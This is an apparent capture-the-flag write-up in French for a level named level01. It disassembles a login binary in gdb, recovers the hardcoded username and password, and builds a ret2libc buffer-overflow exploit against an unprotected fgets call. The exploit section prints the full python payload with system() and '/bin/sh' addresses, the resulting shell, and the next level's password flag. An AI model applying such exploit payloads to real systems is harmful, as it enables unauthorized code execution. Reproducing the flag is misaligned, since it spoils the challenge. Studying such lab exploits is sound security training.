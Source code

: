# Analyse

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

## Binaire

`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username:
```
`test`
```
verifying username....

nope, incorrect username...

```
## Gdb

`info function`
```asm
[...]
  0x08048464  verify_user_name
  0x080484a3  verify_user_pass
  0x080484d0  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080484d0 <+0>:	push   ebp
   0x080484d1 <+1>:	mov    ebp,esp
   0x080484d3 <+3>:	push   edi
   0x080484d4 <+4>:	push   ebx
   0x080484d5 <+5>:	and    esp,0xfffffff0
   0x080484d8 <+8>:	sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax         ; memset(buffer, 0, 16);
   0x080484ef <+31>:	mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:	mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:	call   0x8048380 <puts@plt>             ; puts("********* ADMIN LOGIN PROMPT *********");
   0x08048503 <+51>:	mov    eax,0x80486df
   0x08048508 <+56>:	mov    DWORD PTR [esp],eax
   0x0804850b <+59>:	call   0x8048360 <printf@plt>           ; printf("Enter Username: ");
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>            ; fgets(<a_user_name>, 256, <stdin>);
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>             ; if verify_user_name() == 0:   jump à <+128>  
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect username...\n");
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>             ; jump à <+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>             ; puts("Enter Password: ");
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>            ; fgets(buffer, 100, <stdin>);
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>     
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>             ; if verify_user_pass(buffer) == 0:   jump à <+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>             ; idem mais jump à <+218> (return(0))
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect password...\n");
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>             ; jump à <+223> (return(1))
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret
End of assembler dump.
```

`disas verify_user_name`
```asm
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:	call   0x8048380 <puts@plt>                       ; puts("verifying username....\n");
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("dat_wil", <a_user_name>);
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
End of assembler dump.
```

`disas verify_user_pass`
```asm
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("admin", argv[1]);
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
End of assembler dump.
```

# Exploit

Le programme compare le username fourni avec "dat_wil", puis le password fourni avec "admin".<br/><br/>
`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
Quel que soit le mot de passe, il affiche "nope, incorrect password..." et return, puis de toutes façons à aucun moment il ne nous affiche le fichier .pass ou nous ouvre un shell, donc on va devoir se débrouiller tout seul.

Nous allons appeler directement la fonction system() de la libc, en lui fournissant comme argument la chaine de caractère "/bin/sh".<br/>
doc principale : https://beta.hackndo.com/retour-a-la-libc/<br/>

Tout d'abord, on note que fgets() est utilisé sans protection sur un buffer à <main+164>. On peut donc faire un buffer overflow, cherchons l'offset avec un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
- L'EIP est réécrit avec un offset de 80. 

Notre exploit sera composé comme suit:
[ Offset de 80 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Cette commande recherche dans une plage mémoire commençant au début de la fonction __libc_start_main() (appelée avant notre fonction main), et d’une taille de 99 999 999 octets la string "/bin/sh".
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "dat_wil\n" + "\x90" * 80 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
/bin/sh: 3: �: not found
Segmentation fault (core dumped)
```


